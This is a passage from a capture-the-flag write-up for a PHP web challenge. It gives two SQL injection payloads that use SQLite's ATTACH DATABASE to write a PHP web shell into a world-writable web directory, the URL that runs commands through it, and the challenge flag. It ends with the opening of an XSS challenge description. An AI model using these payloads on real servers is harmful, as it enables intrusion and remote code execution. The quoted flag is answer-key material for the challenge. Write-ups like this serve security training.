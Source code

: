 ### Solver

There was a sql injection here
`$pdo->exec("INSERT INTO Flags VALUES ('$flag');");`

In the dockerfile note that you have write access to /var/www/html/abyss/

```
RUN mkdir /var/www/html/abyss &&\
    chown -R root:root /var/www/html/abyss &&\
    chmod -R 333 abyss
```

Note that the `ATTACH DATABASE` in PDO writes to a file so final payload

```
Payload 1:
a'); ATTACH DATABASE '/var/www/html/abyss/exploit.php' AS j;CREATE TABLE j.k (f text);--

Payload 2:
a'); ATTACH DATABASE '/var/www/html/abyss/exploit.php' AS j;INSERT INTO j.k (f) VALUES ("<? system($_GET['cmd']);?>");--

#technically everything could have been done in 1 payload, but it seems cleaner to me this way

```

Then visit /abyss/exploit.php?cmd=/printflag

### Flag

```
actf{why_do_people_still_use_php}
```

![noflags2](./images/noflags2.png)

## Web Challenge: Cliche

### Description/Source

We are given a website to paste html/markdown and can send the link to the admin bot for XSS.
